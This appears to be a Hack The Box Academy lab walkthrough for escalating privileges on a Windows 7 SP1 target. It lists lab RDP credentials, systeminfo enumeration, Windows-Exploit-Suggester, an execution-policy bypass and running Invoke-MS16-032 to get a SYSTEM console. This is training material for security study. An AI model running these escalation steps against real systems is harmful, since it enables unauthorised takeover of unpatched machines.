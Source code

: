 ## 🎯 HTB Academy Lab Walkthrough

### Lab Environment
```cmd
# Access: RDP with htb-student:HTB_@cademy_stdnt!
# Target: Windows 7 Professional SP1
# Objective: Get Administrator flag.txt
```

### Complete Step-by-Step Solution

#### 1. Initial Access
```bash
# Connect via RDP:
xfreerdp /v:<target_ip> /u:htb-student /p:HTB_@cademy_stdnt!
```

#### 2. System Enumeration
```powershell
# Open PowerShell and gather system info:
systeminfo

# Key details:
OS Name: Microsoft Windows 7 Professional
OS Version: 6.1.7601 Service Pack 1 Build 7601
Hotfix(s): 3 Hotfix(s) Installed (minimal patches)
```

#### 3. Vulnerability Assessment (Attack Machine)
```bash
# Save systeminfo output to file: systeminfo.txt

# Download Windows-Exploit-Suggester:
wget https://raw.githubusercontent.com/AonCyberLabs/Windows-Exploit-Suggester/master/windows-exploit-suggester.py

# Update vulnerability database:
python2.7 windows-exploit-suggester.py --update

# Run analysis:
python2.7 windows-exploit-suggester.py --database 2022-11-22-mssb.xls --systeminfo systeminfo.txt

# Key finding: MS16-032 - Secondary Logon Handle - Important
```

#### 4. Privilege Escalation (Target Machine)
```powershell
# Navigate to tools directory:
cd C:\Tools

# Set PowerShell execution policy:
Set-ExecutionPolicy bypass -scope process
# Choose: Y

# Import and execute MS16-032 exploit:
Import-Module .\Invoke-MS16-032.ps1
Invoke-MS16-032

# Result: SYSTEM cmd console opens automatically
```
